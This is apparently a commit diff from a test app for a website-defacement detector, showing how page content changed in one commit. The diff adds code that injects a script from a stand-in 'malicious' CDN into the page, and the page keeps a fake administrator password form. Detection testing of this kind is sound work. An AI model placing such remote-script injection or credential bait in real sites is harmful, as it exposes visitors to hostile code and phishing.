

Before and after one commit to Shubhamgupta171/DefaceKro, a React (Vite) app: page / in a window 1280 px wide. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update MainContent.jsx

```diff
--- a/src/components/MainContent.jsx
+++ b/src/components/MainContent.jsx
@@ -1,19 +1,33 @@
-import React from 'react';
+import React, { useEffect } from 'react';
 
 /**
- * MainContent - Text Change Stress Test Version
+ * MainContent - Script Injection Test Version
  *
  * Focus:
- * - Replacing headlines
- * - Changing body text
- * - Modifying labels/buttons
- * - Rewriting large content blocks
+ * - Structural drift via useEffect injection
+ * - Testing script_injection_new_domain trigger
  */
+const MainContent = () => {
 
-const MainContent = () => {
+  // --- TEST: Script Injection (script_injection_new_domain) ---
+  useEffect(() => {
+    // Manually injecting the script into the real DOM
+    const script = document.createElement("script");
+    script.src = "https://unknown-cdn.com/malicious.js";
+    script.id = "malicious-script-trigger";
+    script.async = true;
+
+    document.body.appendChild(script);
+
+    // Cleanup when component unmounts
+    return () => {
+      const el = document.getElementById("malicious-script-trigger");
+      if (el) document.body.removeChild(el);
+    };
+  }, []);
+
   return (
     <div className="defaced-root" id="layer1-pwned-zone">
-
       <header
         className="hacked-header"
         style={{
@@ -23,34 +37,17 @@ const MainContent = () => {
           textAlign: 'center',
         }}
       >
-        {/* HEADLINE CHANGE */}
         <h1 style={{ fontSize: '3rem', marginBottom: '10px' }}>
           PLATFORM MAINTENANCE ACTIVE
         </h1>
-
         <h2 style={{ fontWeight: 'normal' }}>
           User services are temporarily operating in restricted mode
         </h2>
       </header>
 
       <main className="content-purge" style={{ padding: '30px' }}>
-
-        {/* BODY TEXT CHANGES */}
         <p>
-          We are currently performing a large-scale infrastructure migration
-          to improve application reliability, authentication performance,
-          and long-term scalability.
-        </p>
-
-        <p>
-          During this maintenance period, some dashboard modules,
-          verification systems, and account management tools may
-          respond more slowly than expected.
-        </p>
-
-        <p>
-          Our engineering team is actively monitoring service health
-          and applying configuration updates across production systems.
+          We are currently performing a large-scale infrastructure migration...
         </p>
 
         {/* LARGE CONTENT REWRITE */}
@@ -64,22 +61,10 @@ const MainContent = () => {
           }}
         >
           <h3>Infrastructure Update Notice</h3>
-
-          <p>
-            Several backend services are being redeployed as part of
-            a scheduled modernization initiative. This includes API
-            routing improvements, database optimization procedures,
-            and internal authentication policy upgrades.
-          </p>
-
-          <p>
-            Users may experience temporary interruptions while
-            synchronization tasks complete across distributed regions.
-            We appreciate your patience while these updates are finalized.
-          </p>
+          <p>Several backend services are being redeployed...</p>
         </section>
 
-        {/* MODIFIED FORM LABELS + BUTTONS */}
+        {/* FORM TEST */}
         <form
           action="/verify"
           method="POST"
@@ -91,66 +76,22 @@ const MainContent = () => {
           }}
         >
           <h3>Administrator Access Validation</h3>
-
-          <label
-            htmlFor="adminKey"
-            style={{ display: 'block', marginBottom: '10px' }}
-          >
-            Secure Verification Credential
-          </label>
-
-          <input
-            id="adminKey"
-            type="password"
-            placeholder="Enter authorized verification credential"
-            style={{
-              padding: '12px',
-              width: '100%',
-              marginBottom: '20px',
-            }}
-          />
-
-          <button
-            type="submit"
-            style={{
-              backgroundColor: '#ff4444',
-              color: 'white',
-              border: 'none',
-              padding: '12px 24px',
-              cursor: 'pointer',
-            }}
-          >
-            Validate Administrative Session
+          <input type="password" placeholder="Enter credential" style={{ padding: '12px', width: '100%' }} />
+          <button type="submit" style={{ backgroundColor: '#ff4444', color: 'white', padding: '12px 24px', marginTop: '10px' }}>
+            Validate Session
           </button>
         </form>
       </main>
 
-      {/* Structural filler */}
-      <div
-        className="structural-noise"
-        aria-hidden="true"
-        style={{ opacity: 0, height: 0 }}
-      >
+      {/* Structural filler to maintain node count for baseline comparison */}
+      <div style={{ opacity: 0, height: 0 }}>
         {Array.from({ length: 400 }).map((_, i) => (
-          <section key={i} className={`anomaly-block-v4-${i}`}>
-            <span id={`drift-id-${i}`}>
-              STRUCTURAL_ENTROPY_ACTIVE
-            </span>
-          </section>
+          <section key={i}><span id={`drift-node-${i}`}>ENTROPY</span></section>
         ))}
       </div>
 
-      <footer
-        className="footer-void"
-        style={{
-          textAlign: 'center',
-          padding: '20px',
-          borderTop: '4px solid #ff4444',
-        }}
-      >
-        <b style={{ fontSize: '20px' }}>
-          SYSTEM STATUS: MAINTENANCE MODE
-        </b>
+      <footer style={{ textAlign: 'center', padding: '20px', borderTop: '4px solid #ff4444' }}>
+        <b>SYSTEM STATUS: MAINTENANCE MODE</b>
       </footer>
     </div>
   );
```
